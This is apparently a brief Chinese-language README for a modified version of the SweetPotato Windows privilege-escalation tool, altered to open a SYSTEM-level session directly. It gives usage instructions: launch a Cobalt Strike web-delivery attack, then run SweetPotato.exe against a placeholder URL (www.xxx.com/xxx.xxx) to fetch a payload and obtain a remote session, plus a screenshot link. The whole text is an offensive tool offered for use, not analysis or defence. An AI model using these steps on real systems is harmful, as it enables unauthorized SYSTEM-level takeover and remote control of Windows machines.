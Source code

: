 对https://github.com/CCob/SweetPotato

进行修改，使其可以直接上线一个system的session。

效果图：

![截图_2020-04-14_12-28-56.png](http://ww1.sinaimg.cn/large/007F8GgBly1gdt6uxbod2j31920i0q5f.jpg)

使用方法：

使用cs启动一个web攻击的简体

SweetPotato.exe www.xxx.com/xxx.xxx

即可获得会话
